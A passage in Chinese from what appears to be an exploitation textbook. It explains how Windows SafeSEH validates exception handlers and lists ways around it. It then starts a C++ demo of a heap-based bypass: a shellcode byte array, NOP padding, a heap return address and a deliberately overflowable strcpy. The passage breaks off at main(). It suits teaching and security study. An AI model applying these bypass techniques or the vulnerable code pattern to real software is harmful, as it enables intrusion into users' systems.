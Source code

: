通过以上分析，可以看到 SafeSEH 对 S.E.H 的校验已经相当完善了，并且能够有效降低通过攻击 S.E.H 中异常处理函数指针而获得控制权的可能性。现在您应该明白在 6.1 中我们为什么总是建议在 Windows 2000 平台上进行实验了吧。 

但SafeSEH是否真的可以杜绝针对S.E.H的攻击呢？让我们来看看RtlIsValidHandler()函数会在哪些情况下的允许异常处理函数执行。 
- （1）异常处理函数位于加载模块内存范围之外，且 DEP 关闭。 
- （2）异常处理函数位于加载模块内存范围之内，相应模块未启用 SafeSEH（安全 S.E.H 表 为空），同时相应模块不是纯 IL。 
- （3）异常处理函数位于加载模块内存范围之内，相应模块启用 SafeSEH（安全 S.E.H 表不为空），异常处理函数地址包含在安全 S.E.H 表中。

我们来分析一下这三种情况的可行性。 
- （1）现在我们只考虑 SafeSEH，不考虑 DEP，针对 DEP 的讨论我们放到下一节中。排除 DEP 干扰后，我们只需在加载模块内存范围之外找到一个跳板指令就可以转入 shellcode 执行， 这点还是比较容易实现的。 
- （2）在第二种情况中，我们可以利用未启用 SafeSEH 模块中的指令作为跳板，转入 shellcode 执行，这也是为什么我们说 SafeSEH 需要操作系统与编译器的双重支持。在加载模块中找到一 个未启用的 SafeSEH 模块也不是一件很困难的事情。 
- （3）这种情况下我们有两种思路可以考虑：
  - 一是清空安全 S.E.H 表，造成该模块未启用SafeSEH 的假象；
  - 二是将我们的指令注册到安全 S.E.H 表中。由于安全 S.E.H 表的信息在内存中是加密存放的，所以突破它的可能性也不大，这条路我们就先放弃吧。 

通过以上分析可以得出结论：突破 SafeSEH 还是可以做到的。您可能会问这些方法貌似有点复杂，有没有更为简便的方法突破呢？很负责地告诉您，方法是有的。有两种更为简便直接方法可以突破 SafeSEH。 

- （1）不攻击 S.E.H（太邪恶了），可以考虑覆盖返回地址或者虚函数表等信息。 
- （2）利用 S.E.H 的终极特权！这种安全校验存在一个严重的缺陷——如果 S.E.H 中的异常函数指针指向堆区，即使安全校验发现了 S.E.H 已经不可信，仍然会调用其已被修改过的异常处理函数，因此只要将 shellcode 布置到堆区就可以直接跳转执行！ 

理论分析结束，接下来我们转入实战阶段。请注意本节所有关于绕过 SafeSEH 机制的讨论 均不考虑 DEP 的影响。 

### 攻击返回地址绕过 SafeSEH  
如果碰到一个程序，他启用了 SafeSEH 但是未启用 GS，或者启用了 GS 但是刚好被攻击的函数没有 GS 保护（我们不考虑这种事情发生的概率，而且这种漏洞的的确确存在），攻击者肯定会直接攻击函数返回地址。在这里我们不过多介绍了。 

### 利用虚函数绕过 SafeSEH 
利用思路和我们在 10.3 中介绍的类似，通过攻击虚函数表来劫持程序流程，这个过程不涉 及任何异常处理，SafeSEH 也就只是个摆设。大家可以参考一下 10.3 中的例子自己实践一下， 在这我们就不做过多介绍了。 

### 从堆中绕过 SafeSEH 
所谓智者千虑，必有一失。我们将用如下代码演示如何利用堆绕过 SafeSEH。 

```c++
#include<stdafx.h> 
#include<stdlib.h> 
#include<string.h> 

	char shellcode[]= "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"……" 
	"\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\xA0\x29\x39\x00"//address of shellcode in heap 
; 

void test(char * input) 
{ 
	char str[200];
	strcpy(str,input);         
	int zero=0;        
	zero=1/zero; 
} 

void main() 
{        
```